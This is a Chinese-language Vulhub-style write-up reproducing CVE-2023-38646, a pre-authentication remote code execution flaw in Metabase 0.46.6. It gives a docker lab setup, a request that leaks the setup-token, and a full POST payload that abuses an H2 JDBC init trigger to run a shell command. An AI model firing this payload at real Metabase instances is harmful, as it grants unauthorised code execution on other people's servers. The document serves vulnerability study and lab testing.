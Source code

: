 # Metabase 未授权 JDBC 远程代码执行漏洞 CVE-2023-38646

## 漏洞描述

Metabase是一个开源的数据分析平台。在其0.46.6版本及以前，存在一处远程代码执行漏洞，未授权的用户可以使用JDBC注入在服务器上执行任意代码。

参考链接：

- https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/
- https://blog.calif.io/p/reproducing-cve-2023-38646-metabase
- https://mp.weixin.qq.com/s/MgfIyq0OJwnKOUF2kBB7TA

## 网络测绘

```
app="Metabase"
```

## 环境搭建

Vulhub执行如下命令启动一个Metabase server 0.46.6：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:3000`可以查看到Metabase的安装引导页面，填写初始账号密码，并且跳过后续的数据库填写的步骤即可完成安装：

![image-20230803144456721](images/image-20230803144456721.png)

## 漏洞复现

首先，需要先访问`/api/session/properties`来获取Metabase的`setup-token`：

```
GET /api/session/properties HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
```

![image-20230803145405274](images/image-20230803145405274.png)

要利用漏洞，必须要获取这个Token。

接着，将刚才获取的`[setup-token]`替换进下面这个请求后发送：

```
POST /api/setup/validate HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 739

{
    "token": "[setup-token]",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;",
            "advanced-options": false,
            "ssl": true,
"init": "CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\u000A\u0009java.lang.Runtime.getRuntime().exec('touch /tmp/success')\u000A$$"
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```

![image-20230803150105927](images/image-20230803150105927.png)

虽然 response code 为 400，但可以看到，`touch /tmp/success`已成功在Metabase容器中执行：

![image-20230803150134198](images/image-20230803150134198.png)